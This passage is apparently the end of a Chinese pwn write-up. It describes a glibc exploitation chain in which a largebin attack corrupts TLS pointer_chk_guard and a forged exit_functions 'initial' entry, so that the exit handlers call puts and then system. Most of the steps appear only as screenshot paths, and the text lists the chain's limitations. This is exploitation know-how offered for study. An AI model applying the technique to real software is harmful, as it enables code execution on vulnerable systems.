



可以看到 cxafct 取到的是已经加密的函数指针



经过解密可以得出正确的puts指针

并且可以注意到这里的第一个参数 arg也是从initial的内容里取到的：



成功按照预想调用puts函数：

->

然后再走一次puts，以及system：





(因为这个poc对于tls地址是直接用调试得到的偏移地址，但开启aslr的情况下，这个偏移地址会随机化，所以这篇记录就先在关闭aslr的情况下进行了)

### **尚存缺点：**

\*\*① 对于TLS->pointer\_chk\_guard的控制：\*\*由于通过largebin attack进行攻击只能在TLS里写堆地址，所以只能将pointer\_chk\_guard改为堆地址，导致原本只需要泄露一个libc地址变成了还需要再泄露一个堆地址，让这种利用变得更加复杂

而且由于TLS地址在开启ASLR情况下是与ld地址偏移固定，而不是与libc地址偏移固定，所以对这个地址的泄露也要复杂一些

\*\*② 对于伪造initial的取值：\*\*largebin attack只能把堆地址从头地址开始写到exit\_functions上，但是这个攻击流程中设置堆块内容后还会释放布置好的chunk，所以就会导致其内容中出现一些arena指针，再加上chunk头的size，也是个麻烦的点，它对于initial结构体来说是idx，也就会导致\_\_run\_exit\_handlers的遍历循环进行成千上百次不必要的循环，可能会使靶机环境出现不稳定的情况

**最后的一点碎碎念：**

菜比小登的第一次挖调用链，由于经验匮乏，挖这个链的时候确实是有些操作不当，过程中我是先写思路分析再写的poc，所以这个poc也是挺勉强的，另外这个调用链目前看来易用性还是较低，使用条件有一些苛刻，后续如果再看exit的源码可能还会再来优化一下吧~

如果有写的不对的地方，欢迎师傅们指出
